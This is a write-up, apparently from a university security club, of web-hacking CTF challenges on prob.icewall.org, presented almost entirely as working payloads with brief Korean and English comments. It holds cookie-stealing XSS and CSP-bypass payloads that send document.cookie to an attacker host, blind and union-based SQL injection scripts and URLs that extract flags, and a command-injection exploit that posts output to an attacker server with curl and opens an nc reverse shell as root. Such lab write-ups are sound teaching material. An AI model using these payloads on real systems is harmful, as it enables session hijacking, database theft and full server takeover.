 # TL;DR

자세한 설명은 생략하고 공격에 성공한 페이로드만 작성했습니다. 분석은 해킹에 필수적인 역량입니다. 아래 페이로드를 하나씩 분석하고 참고하다 보면 공부가 많이 될거라고 생각합니다. ~~(사실 다 핑계고 사진 넣고 설명 넣기 귀찮..)~~

해킹에는 정답이 없습니다. 당연하게도, 이 여름 과제에도 문제마다 다양한 풀이가 있을 수 있습니다. 아래 적힌 풀이가 절대적인 정답은 아니니 참고해주시면 감사하겠습니다. (+ 출제자의 의도와 다르게 풀린 문제도 있습니다.) 



# Beginner

동아리 수업 내용에 굉장히 부합하는 문제들로 구성되어 있었습니다. 난이도도 적당했다고 생각합니다. 개인 서버를 사용해야 한다는 점과 SQLite 환경에서 인젝션을 해야한다는 점이 뉴비들에게 큰 어려움으로 다가왔을 것 같습니다. 하지만 덕분에 더 practical한 문제였다고 생각합니다.



## XSS

관리자 봇의 쿠키 값을 탈취해야 합니다. 리얼월드에서는 쿠키에 http only 옵션이 붙어있기 때문에 중요한 쿠키 값을 탈취하는게 대부분 불가능합니다. 하지만 문제 페이지에 들어가서 쿠키를 확인해보면 http only 옵션이 안 붙어있는 것을 확인할 수 있습니다. 쿠키를 탈취해서 공격자의 서버로 전송하는 자바스크립트를 작성하면 됩니다.



### XSS1

There's no filtering.

```
<img src='a' onerror='location.href="http://<attacker>:9999/?"+document.cookie;'>
http://prob.icewall.org:10002/?q=%3Cimg+src%3D%27a%27+onerror%3D%27location.href%3D%22http%3A%2F%2F<attacker>%3A9999%2F%3F%22%2Bdocument.cookie%3B%27%3E
```



### XSS2

Script tag is filtered.

```
<img src='a' onerror='location.href="http://<attacker>:9999/?"+document.cookie;'>
http://prob.icewall.org:10002/?q=%3Cimg+src%3D%27a%27+onerror%3D%27location.href%3D%22http%3A%2F%2F<attacker>%3A9999%2F%3F%22%2Bdocument.cookie%3B%27%3E
```



### XSS3

Quotation mark is filtered.

```
<img src=a onerror=eval(atob(`bG9jYXRpb24uaHJlZj0iaHR0cDovLzQ5LjE2Ni4yNDIuNjk6OTk5OS8/Iitkb2N1bWVudC5jb29raWU7`))>
```



## SQL Injection

SQL 인젝션을 수행해서 데이터베이스에 있는 플래그 값을 읽어오면 됩니다. (sqlmap이 작동하지 않아서 수동으로 해야합니다.)



### SQL Injection1

Do blind SQL injection.

```python
import requests
import string


def req(brute):
  s = requests.Session()

  url = 'http://prob.icewall.org:10005/login'
  params = {}
  params['id'] = f'guasdf" or (id="admin" and pw like "{brute}%") -- d'
  params['pw'] = 'asdfasdf'

  res = s.get(url,params=params)
  return '로그인 성공' in res.text

def main():

  correct = 'd9vn2!@sgdnwi2ndla2d0'
  for a in string.printable:
    for c in string.printable:
      if c == '%':
        continue

      brute = correct + c
      output = req(brute)
      print(c)
      if output == True:
        correct += c
        print("correct = %s" % correct)
        break

if __name__ == '__main__':
  main()
```



### SQL Injection2

```
http://prob.icewall.org:10006/board_view?id=3%20and%201=0%20union%20select%20(select%20sql%20FROM%20sqlite_master%20WHERE%20type=%27table%27%20limit%203,1),2,3,4%20--%20d

http://prob.icewall.org:10006/board_view?id=3%20and%201=0%20union%20select%20(select%20flagBNd92hdn3kijB%20from%20flagI1nf0j3bHJdo),2,3,4%20--%20d
```



### SQL Injection3

```
http://prob.icewall.org:10007/board?board=notice/**/where/**/0=1/**/union/**/select/**/(select/**/sql/**/FROM/**/sqlite_master/**/WHERE/**/type=%27table%27/**/limit/**/0,1),2,3,4--

http://prob.icewall.org:10007/board?board=notice/**/where/**/0=1/**/union/**/select/**/(select/**/flag83hnNdk893Nd2/**/from/**/flag923nvg0Kd2DD),2,3,4--
```



### SQL Injection4

 Do blind SQL injection.

```python
import requests
import string


def req(brute):
  s = requests.Session()

  url = 'http://prob.icewall.org:10008/submit'
  params = {}
  #params['number'] = f'12312312 union select sql from sqlite_master where type="table" and substr(sql,0,{length})="{brute}" -- d'
  params['number'] = f'12312312 union select sql from sqlite_master where type="table" and sql like "%{brute}%" COLLATE BINARY-- d'
  params['number'] = f'12312312 union select sql from sqlite_master where type="table" and instr(sql,"{brute}")'
  params['number'] = f'12312312 union select flagcolumn from flagtable where instr(flagcolumn,"{brute}")'

  res = s.get(url,params=params)
  #print(res.text)
  return 'true' in res.text

def main():

  correct = 'create table `flagtable`(%flag'
  correct = 'FLAG{B0olean_bAs3d}'
  while True:
    for c in string.printable:
      brute = correct + c
      out = req(brute)
      print("%s : %s" % (brute, str(out)))
      if out == True:
        correct += c
        print("correct = %s" % correct)
        break

if __name__ == '__main__':
  main()
```



# Advanced

수업에서 다뤘던 내용에 부합하는 문제들로 구성되어 있습니다. ~~출제가가 바보라서~~ 의도하지 않은 풀이가 많이 존재했습니다. (+ baby HRS 문제를 풀려고 몇시간 삽질을 했지만 풀리지 않았습니다. 출제자는 문제가 잘못 출제되었음을 깨닫고 ~~저에게 싹싹 빌며~~ 문제를 삭제했습니다. 하지만 덕분에 http request smuggling에 대해 공부할 수 있는 시간이었습니다.)



## CSP

CSP는 브라우저 상에서 일어나는 공격을 방어하기 위해 만든 보호 기법입니다. 이걸 우회하는 XSS payload를 작성하여 관리자 봇의 쿠키 값을 탈취하면 됩니다.

Tip: CSP evaluator를 사용하면 유용합니다. (잘못된 CSP 설정 잡아줌)



### CSP1

```
http://prob.icewall.org:10012/?fname=aa&lname=bb&email=cc%40cc.cc&subject=dd&message=%22%22%3E%3C/textarea%3E%3Cscript%20src=%22data:text/html%20,location.href=%27http://<attacker>:9999/?%27%2Bdocument.cookie%22%3E%3C/script%3E
```



### CSP2

```
http://prob.icewall.org:10013/?name={{constructor.constructor(%27location.href=%22http://<attacker>:9999/?%22%2bdocument.cookie%27)()}}
```



### CSP3

Unintended solution. I could take off the CSP operation by doing something. After that, it's just a general XSS.

```
http://prob.icewall.org:10014/%3Cobject%20src=%22a.html%22%20type='text/html'%3E%3C/object%3E%3Cscript%3Elocation.href=%22http://<attacker>:9999/%22%3C/script%3E
```



## dom based XSS

Maybe unintended solution.

```
http://prob.icewall.org:10004/?url=%23%3Cscript%3Ealert(document.cookie)%3C/script%3E%3Cimg%20src=a%20onerror=eval(atob(`bG9jYXRpb24uaHJlZj0iaHR0cDovLzQ5LjE2Ni4yNDIuNjk6OTk5OS8/Iitkb2N1bWVudC5jb29raWU7`))%3E
```

https://jjy-security.tistory.com/73



## baby web cache

There's an unintended command injection vulnerability. And the service is running as root permission. So it's possible to exploit the server.

```
http://prob.icewall.org:10011/report?url=http://<attacker>:9999/

http://prob.icewall.org:10011/report?url=\%27;curl%20-X%20POST%20http://<attacker>:9999/%20-d%20%22`apt-get%20install%20-y%20wget%20netcat%202%3E%261`%22%20%23

http://prob.icewall.org:10011/report?url=\%27;nc%20<attacker>%209999%20-e%20/bin/bash%20%23
```

https://jjy-security.tistory.com/50